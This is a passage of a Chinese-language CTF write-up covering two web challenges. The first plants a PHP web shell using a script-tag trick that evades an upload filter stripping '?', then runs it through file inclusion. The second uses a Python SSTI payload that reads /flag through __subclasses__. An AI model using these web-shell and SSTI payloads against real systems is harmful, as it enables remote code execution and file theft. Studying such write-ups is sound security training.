 这样我们就可以获得图片路径了 `/proc/self/cwd/$rootpath` 。接下来直接利用题目最开始的文件包含 [http://xxxx/index.php?page=submit](http://xxxx/index.php?page=submit) 但是这里还有一个坑。坑在upload.php中有这样一段代码：

```
if(preg_match('/^ph(.*)$/i',$ext)){
 if(in_array($ext, ['php', 'php3', 'php4', 'php5', 'phtml','phps'])) {
 file_put_contents($rootpath,preg_replace("/\?/","",file_get_contents($rootpath)));
 }
}
```

会把文件中的 `?` 号给去掉，所以我们不能用 `<?php phpcode;?>` 这种写法，而要用 `<script language="php">phpinfo();@eval($_GET[_]);</script>` 接着直接包含即可执行命令：）当然，也可以不使用包含，直接访问马的路径。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084453-c9e53676-8f06-1.png)

### fast_calc_2

请求包类似：

```
POST /calc.php HTTP/1.1
Host: b4b74052eed440eb9c7899c932f61b6ce79f555733524dc2.changame.ichunqiu.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; UM_distinctid=16b3177db8f50f-05893ba84daad1-1b29140e-100200-16b3177db90396; pgv_pvi=517607424; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1559903068,1560408162; __jsluid=ab86d4cd5c34bd66f80a8891dc2e731e; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1560434036
Connection: close
Content-Type: application/json
Content-Length: 27

{"target":"/","expr":"1+1"}
```

fuzz一下，发现可能是python的SSTI

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084503-cfcee8c0-8f06-1.png)

发现ban了 `[]` ，于是本地测成功一个payload

''.__getattribute__('__class__').__base__.__getattribute__(().__class__.__mro__.__getitem__(1),'__subc'+'lasses__')().__getitem__(40)('/flag').__getattribute__('read')()

但是题目提示没有 `__base__` 属性，怀疑该属性应该是被ban了。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084512-d5966184-8f06-1.png)

后来队友测出直接用open方法，用空格隔开方法名和括号即可直接读取flag。
